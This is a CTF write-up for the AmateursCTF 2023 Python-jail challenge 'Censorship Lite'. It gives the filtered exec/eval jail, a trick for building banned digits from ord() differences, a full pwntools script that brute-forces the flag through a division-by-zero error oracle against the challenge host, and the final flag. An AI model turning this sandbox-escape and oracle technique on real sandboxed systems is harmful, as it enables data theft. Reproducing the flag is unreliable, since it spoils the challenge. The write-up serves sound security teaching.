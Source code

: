 # Misc - Censorship Lite (AmateursCTF 2023)

## Problem

We are faced with another Python jail problem:

```python
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## Solution

The difficulty for this Python Jail is increased from `e,t,\` characters to `\lite0123456789`. Again, we note that if an exception was triggered, An error message will be printed. 

We can take advantage of this by considering the division-by-zero exception and perform `1/(ord(guess_char)-ord(_[flag_char_pos]))` to bruteforce the flag character by character. However, because digits are banned, a small trick is used:

```python
one = (ord('!') - ord(' ')) # = 1
# Used when encountering '\lite' --> Use ord(next_char) - one to bypass

ten = (ord('*') - ord(' ')) # = 10
# Used when encountering '0123456789' --> Use ord(next_char) - ten to bypass

```

Solve script is as follows:

```python
from pwn import *

r = remote('amt.rs', 31671)
print(r.recv(256))
# Note: replace # in final flag with ' since ' will cause syntax error
flag = ''
print(len(flag))
flaglen = 100
# Re-run a few times due to timeout, store partial result in "flag"
onestr = f"(ord('!') - ord(' '))"
tenstr = f"(ord('*') - ord(' '))"
for j in range(len(flag), flaglen + 1):
    jstr = f"(ord('{chr(j + ord(' '))}'))"
    if any([c in jstr for c in "\lite"]):
        jstr = f"(ord('{chr(j + ord(' ') + 1)}') - {onestr})"
    if any([c in jstr for c in "0123456789"]):
        jstr = f"(ord('{chr(j + ord(' ') + 10)}') - {tenstr})"
    jstr += f" - ord(' ')"
    found = False
    for i in range(32, 128):
        istr = f"ord('{chr(i)}')"
        # Substitution
        if any([c in istr for c in "\lite"]):
            istr = f"(ord('{chr(i + 1)}') - {onestr})"
        if any([c in istr for c in "0123456789"]):
            istr = f"(ord('{chr(i + 10)}') - {tenstr})"
        payload = f"{onestr} / ({istr} - ord(_[{jstr}]))"
        #print(payload)
        r.sendline(payload.encode('utf-8'))
        res = r.recv(256).decode('utf-8')
        if 'division by zero' in res:
            found = True
            flag += str(chr(i))
            print("FLAG:", flag)
            break
    if not found:
        flag += '#'
        print("FLAG:", flag)
        continue
```

## Flag

amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}
